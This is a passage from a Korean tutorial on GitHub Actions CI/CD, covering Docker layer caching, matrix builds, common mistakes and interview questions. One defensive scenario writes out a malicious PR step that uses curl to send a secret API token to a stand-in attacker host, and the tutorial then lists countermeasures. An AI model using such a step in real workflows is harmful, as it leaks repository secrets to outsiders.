# 2단계: 런타임 (최소 이미지)
FROM eclipse-temurin:21-jre-alpine
WORKDIR /app
COPY --from=builder /app/build/libs/*.jar app.jar

# 보안: root가 아닌 별도 사용자로 실행
RUN addgroup -S appgroup && adduser -S appuser -G appgroup
USER appuser

EXPOSE 8080
ENTRYPOINT ["java", "-jar", "app.jar"]
```

**이 코드의 핵심:**
- `build.gradle`을 먼저 복사하고 `dependencies`만 실행한다. 의존성이 변경되지 않으면 이 레이어는 캐시된다.
- 소스 코드(`src`)는 나중에 복사하므로, 코드 변경 시 의존성 레이어는 재사용된다.
- Multi-stage 빌드로 JDK(빌드용)와 JRE(런타임용)를 분리하여 최종 이미지 크기를 줄인다.
- `USER appuser`로 컨테이너를 non-root로 실행하여 보안을 강화한다.

GitHub Actions에서 Docker Layer 캐시를 활용하려면 `cache-from`/`cache-to`를 설정해야 한다. GitHub-hosted Runner는 매번 새 VM이라 로컬 캐시가 없기 때문이다.

```yaml
- name: Build and push
  uses: docker/build-push-action@v5
  with:
    context: .
    push: true
    tags: ${{ steps.meta.outputs.tags }}
    cache-from: type=gha          # GitHub Actions 캐시에서 레이어 복원
    cache-to: type=gha,mode=max   # 모든 레이어를 캐시에 저장 (mode=max)
```

`mode=max`는 중간 레이어까지 모두 캐싱한다. 기본(`mode=min`)은 최종 레이어만 캐싱하여 공간은 절약되지만 캐시 적중률이 낮다. 빌드 속도가 중요하면 `max`를 사용한다.

> **비유:** Docker Layer 캐시는 레고 블록 조립이다. 1층(OS) → 2층(JDK) → 3층(의존성) → 4층(소스) 순서로 쌓는다. 4층만 바꾸면 1~3층은 그대로 재사용한다. 하지만 2층을 바꾸면 3~4층도 다시 쌓아야 한다. 그래서 변경이 적은 블록을 아래에 놓는 것이 핵심이다.

---

<details class="extreme-scenario-details">
<summary class="extreme-scenario-summary">
<span class="extreme-scenario-icon">🔥</span>
<span class="extreme-scenario-label">극한 시나리오 — 클릭하여 펼치기</span>
<span class="extreme-scenario-toggle"></span>
</summary>
<div class="extreme-scenario-body">

<div class="extreme-scenario-content" markdown="1">

### 시나리오 1: Matrix 조합 폭발 — 빌드 시간 2시간 초과

OS 3개 x Java 4개 x DB 3개 = 36개 Job이 병렬 실행된다. GitHub-hosted Runner의 동시 실행 제한(기본 20개)에 걸려 일부 Job이 큐에서 대기하고, 전체 파이프라인이 2시간을 넘긴다.

**방어 전략:**
1. `max-parallel`로 동시 실행 수를 제한하여 큐 대기를 예측 가능하게 만든다.
2. Matrix 조합을 줄인다 — 모든 OS에서 모든 Java 버전을 테스트할 필요가 있는지 재검토한다. 핵심 조합(Ubuntu + Java 21 + MySQL)만 필수, 나머지는 야간 빌드로 분리한다.
3. 테스트를 단위/통합으로 분리하여 단위 테스트는 Matrix로, 통합 테스트는 대표 조합 1~2개만 실행한다.

### 시나리오 2: 캐시 미스 연쇄 — 월요일 오전 첫 빌드가 30분 소요

주말 동안 캐시가 만료(기본 7일)되어, 월요일 오전 첫 빌드에서 Gradle 의존성 전체 다운로드 + Docker 레이어 전체 빌드가 발생한다. 개발자가 출근하자마자 PR을 올리면 30분 이상 기다려야 한다.

**방어 전략:**
1. `actions/cache`의 `restore-keys`를 설정하여 정확한 키 매칭이 안 되어도 부분 매칭으로 캐시를 복원한다.
2. 주말에도 cron 트리거로 빌드를 한 번 실행하여 캐시를 갱신한다: `on: schedule: - cron: '0 0 * * 0'` (매주 일요일 자정).
3. Self-hosted Runner를 사용하면 로컬 파일 시스템에 캐시가 영구적으로 남아 이 문제가 발생하지 않는다.

### 시나리오 3: Secret 탈취 시도 — 악성 PR에서 시크릿을 외부로 전송

공격자가 PR에서 `curl https://attacker.com/steal?token=${{ secrets.API_TOKEN }}`을 Step에 넣는다. 포크에서 온 PR의 경우 시크릿에 접근할 수 없지만, 같은 저장소 내부의 브랜치에서 온 PR이면 시크릿에 접근 가능하다.

**방어 전략:**
1. Branch Protection Rule에서 `Require approvals`를 설정하여 모든 PR에 코드 리뷰를 필수화한다. Workflow 파일(`.github/workflows/`) 변경은 CODEOWNERS로 보안팀 승인을 요구한다.
2. Environment Protection Rules로 프로덕션 시크릿은 `main` 브랜치에서만 접근 가능하게 제한한다.
3. `permissions` 키로 GITHUB_TOKEN의 권한을 최소화한다: `permissions: contents: read`.

---
</div>
</div>
</details>

## 실무에서 자주 하는 실수

### 실수 1: GITHUB_TOKEN 권한을 과도하게 부여

기본 GITHUB_TOKEN은 저장소에 대한 광범위한 권한을 가진다. Workflow에서 필요 없는 권한까지 자동으로 부여되어, 보안 취약점이 된다.

**해결:** Workflow 최상단에 `permissions`를 명시적으로 선언하여 최소 권한만 부여한다.

```yaml
permissions:
  contents: read       # 코드 읽기만 허용
  packages: write      # Docker 이미지 Push에 필요
  # pull-requests, issues 등은 명시하지 않으면 권한 없음
```

### 실수 2: Job 간 데이터 전달을 Artifact 대신 환경 변수로 시도

서로 다른 Job은 다른 Runner에서 실행되므로 환경 변수를 공유할 수 없다. `$GITHUB_OUTPUT`으로 설정한 값도 같은 Job 안에서만 유효하다.

**해결:** Job 간 간단한 값은 `outputs`로, 파일은 `actions/upload-artifact`와 `actions/download-artifact`로 전달한다.

### 실수 3: `actions/checkout@v4` 없이 코드에 접근 시도

GitHub-hosted Runner는 매번 새 VM이다. checkout 없이는 코드가 없다. 간단해 보여서 빠뜨리기 쉽다.

### 실수 4: Docker 빌드에서 `.dockerignore` 미설정

`.git`, `node_modules`, `build` 디렉토리가 Docker 빌드 컨텍스트에 포함되어 빌드 시간이 급증한다. `.git` 디렉토리만 해도 수백 MB일 수 있다.

**해결:** `.dockerignore` 파일을 반드시 만들어 불필요한 파일을 제외한다.

```
.git
.gradle
build
node_modules
*.md
.github
```

### 실수 5: `if: always()` 남용

`always()`는 이전 Step이 실패해도 실행된다. 테스트 리포트 업로드처럼 꼭 필요한 곳에만 사용해야 한다. 배포 Step에 `always()`를 걸면 테스트 실패 후에도 배포가 진행되는 치명적 실수가 발생한다.

---

## 면접 포인트

### Q1: GitHub Actions에서 Job과 Step의 차이는?

Job은 독립된 Runner(VM)에서 실행되는 작업 단위다. Job 간에는 파일 시스템을 공유하지 않으며, outputs나 Artifact로만 데이터를 전달한다. Step은 하나의 Job 안에서 순차 실행되는 개별 명령이며, 같은 파일 시스템을 공유한다. 기본적으로 Job은 병렬 실행되고, Step은 순차 실행된다.

### Q2: Matrix Strategy에서 `fail-fast: true`(기본값)의 장단점은?

장점은 하나의 조합이 실패하면 나머지를 즉시 취소하여 Runner 비용을 절약한다. 단점은 어떤 조합이 성공하고 어떤 조합이 실패하는지 한 번에 파악할 수 없다. CI에서 "Java 11은 실패하지만 17/21은 성공"이라는 정보가 필요하면 `fail-fast: false`가 적합하다.

### Q3: Reusable Workflow와 Composite Action의 선택 기준은?

Reusable Workflow는 전체 CI/CD 파이프라인을 조직 전체에 표준화할 때 사용한다. 별도 Job(별도 Runner)으로 실행되므로, 환경 격리가 필요하거나 여러 Job을 포함할 때 적합하다. Composite Action은 "JDK 설정 + Gradle 빌드 + 리포트 업로드" 같은 Step 묶음을 재사용할 때 사용한다. 호출한 Job 안에서 인라인 실행되어 Runner를 추가 소비하지 않는다.

### Q4: Self-hosted Runner를 안전하게 운영하려면?

핵심은 3가지다. (1) Ephemeral 모드로 매 Job마다 깨끗한 환경을 보장한다. (2) 포크 PR에 대해 Workflow 실행 전 승인을 요구한다. (3) Runner 네트워크를 격리하여 빌드에 필요한 서비스만 접근 허용한다. 추가로 Kubernetes 위에서 Runner를 Pod로 실행하면 자동 스케일링과 격리를 동시에 달성할 수 있다.

### Q5: Docker Layer 캐시를 최대화하는 Dockerfile 작성 원칙은?

변경 빈도가 낮은 레이어를 위에, 높은 레이어를 아래에 배치한다. 구체적으로 (1) 의존성 파일(build.gradle, package.json)만 먼저 복사하고 의존성 설치를 실행한 후, (2) 소스 코드를 복사한다. 이렇게 하면 소스만 변경된 경우 의존성 레이어는 캐시를 재사용한다. Multi-stage 빌드로 빌드 도구(JDK)와 런타임(JRE)을 분리하면 최종 이미지 크기도 줄일 수 있다.

---

## 핵심 정리

| 개념 | 한 줄 요약 |
|------|-----------|
| Workflow / Job / Step | 3계층 구조: Workflow(YAML 파일) > Job(독립 Runner) > Step(순차 명령) |
| Matrix Strategy | 하나의 Job 정의로 OS/버전/DB 조합을 병렬 테스트 |
| Reusable Workflow | 전체 파이프라인을 함수처럼 호출, 조직 표준화 |
| Composite Action | Step 묶음을 재사용, 같은 Runner에서 인라인 실행 |
| Self-hosted Runner | 자체 서버 Runner, ephemeral 모드와 네트워크 격리 필수 |
| Gradle 캐시 | 의존성 + 빌드 캐시를 분리하여 빌드 시간 단축 |
| Docker Layer 캐시 | 변경 적은 레이어를 위에 배치, `cache-from: type=gha` 사용 |
| Secret 관리 | Organization > Repository > Environment 순으로 범위 축소 |
| Environment | Protection Rules로 프로덕션 배포에 수동 승인 강제 |
| permissions | GITHUB_TOKEN 최소 권한 원칙 적용 |
